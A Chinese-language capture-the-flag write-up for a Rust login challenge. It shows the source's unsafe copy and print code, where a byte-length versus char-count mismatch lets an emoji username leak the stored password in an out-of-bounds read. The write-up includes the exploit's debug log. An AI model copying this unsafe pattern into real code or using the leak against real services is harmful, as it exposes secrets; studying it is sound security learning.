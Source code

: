 ### pwn - diamonds and rust
这个题是一个rust，给了源码，虽然没有完全理解。

其实是一个登录界面。首先我们可以输入一个用户名，然后程序会回显用户名，要求我们输入密码。之后把密码和某个常量比对，如果相等会给我们flag。

这个题源码有两处unsafe代码，出现在设置字段（用户名和密码）与打印用户名时。
```rust

macro_rules! set_field {
    ($self:expr, $value:expr, $max_len:expr, $field_size:ident, $field:ident) => {
        $self.$field_size = $value.len();
        let value_chars = $value.chars().collect::<Vec<_>>();
        if value_chars.len() > $max_len {
            panic!("Value must not exceed {} characters!", $max_len);
        }

        unsafe {
            std::ptr::copy_nonoverlapping(
                $value.as_bytes().as_ptr(),
                $self.$field.as_mut_ptr(),
                value_chars.len(),
            );
        }
    };
}

fn set_username(&mut self, username: &str) {
    set_field!(self, username, MAX_USERNAME_LENGTH, username_size, username);
}
fn print_username(&self) -> () {
    for i in 0..self.username_size {
        unsafe {
            let current_byte = *self.username.get_unchecked(i);
            std::io::stdout()
                .write_all(&[current_byte])
                .expect("Error while printing the username");
        }
    }
}
```

`get_unchecked`和`copy_nonoverlapping`的文档提示了这个题可能的思路：

> - get_unchecked: Safety: Calling this method with an out-of-bounds index is undefined behavior even if the resulting reference is not used.
> - copy_nonoverlapping: The copy is “untyped” in the sense that data may be uninitialized or otherwise violate the requirements of T. The initialization state is preserved exactly.

因此可能需要一个数组越界。另外，rust中字符串`.len()`似乎返回的是字节数，但`get_unchecked`返回的是字符数，因此当输入多字节字符时，会发生数组越界，把后面的内容打印出来。
为了获取最多的数组越界，我们希望输入emoji（4个字节），这样在用户名回显时会打印出后面三倍长度的内存（我们取程序允许的最长用户名：`'😅'*32`，能多返回96字节）。
本地测试发现，密码其实就在后面的内存里，并且会重复两遍。因此，我们只需要找到远端重复的内存即可。

```log
[DEBUG] Received 0x99 bytes:
00000000  48 65 6c 6c  6f 2c 20 f0  9f 98 85 f0  9f 98 85 f0  │Hell│o, ·│····│····│
00000010  9f 98 85 f0  9f 98 85 f0  9f 98 85 f0  9f 98 85 f0  │····│····│····│····│
00000020  9f 98 85 f0  9f 98 85 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000040  00 00 00 00  00 00 00 10  59 bd 21 c8  55 00 38 38  │····│····│Y·!·│U·88│
00000050  66 35 64 37  64 36 36 35  30 64 62 65  31 39 35 61  │f5d7│d665│0dbe│195a│
00000060  62 31 39 61  39 38 65 65  38 31 66 31  35 32 38 38  │b19a│98ee│81f1│5288│
00000070  66 35 64 37  64 36 36 35  30 64 62 65  31 39 35 61  │f5d7│d665│0dbe│195a│
00000080  62 31 39 61  39 38 65 21  0a 45 6e 74  65 72 20 70  │b19a│98e!│·Ent│er p│
00000090  61 73 73 77  6f 72 64 3a  20                        │assw│ord:│ │
[DEBUG] Sent 0x21 bytes:
b'88f5d7d6650dbe195ab19a98ee81f152\n'
```